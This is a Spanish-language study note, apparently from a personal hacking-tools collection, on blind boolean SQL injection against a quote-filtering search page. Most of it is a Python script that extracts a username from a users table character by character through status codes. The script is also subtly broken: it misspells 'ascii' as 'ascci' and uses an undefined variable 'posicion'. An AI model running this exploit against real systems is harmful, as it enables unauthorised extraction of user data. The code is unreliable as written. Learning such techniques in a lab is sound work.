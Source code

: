 ```yaml
---
tags:
  - HackingTools
---
```

---
En caso de ser vulnerable a injeciones sql pero que no muestre nada por pantalla o en caso que este sanitizado de manera que no permita escribir comillas en la query podemos hacer lo siguiente.

Sanitizacion en sql para que no admita comillas en la query
![[Pasted image 20250111145456.png]]

Podemos tramitar peticiones mediante `curl` y ver el código de estado de las peticiones
![[Pasted image 20250111145655.png]]
Al ver que nos devuelve algún código de estado nos indica que hay una posible injeccion sql pero sin ver ningún cambio por la web por lo que podemos hacer lo siguiente

```python
#!/usr/bin/python3

import requests
import signal
import sys 
import time
import string
from pwn import *

def def_handler(sig, frame):
	print("\n[!] Saliendo...")
	sys.exit(1)

# CTRL + C
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/searchUsers.php"
characteres = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza Bruta")
	p1.status("Iniciando proceso de fuerza bruta")

	time.sleep(2)
 
	p2 = log.progress("Datos extraidos")
	extracted_info = "" 

	for position in range(1, 150):
		for character in range(33,126):
				sqli_url = main_url + "?id=9 or (select(select ascci(substring(username,%d,1)) from users where id=1)=%d)" % (posicion, character)
	
				r = requests.get(sqli_url)
	
				if r.status_code == 200:
					extracted_info += chr(character)
					p2.status(extracted_info)
					break 


# Flujo principal
if __name__ == '__main__':
	makeSQLI()
```

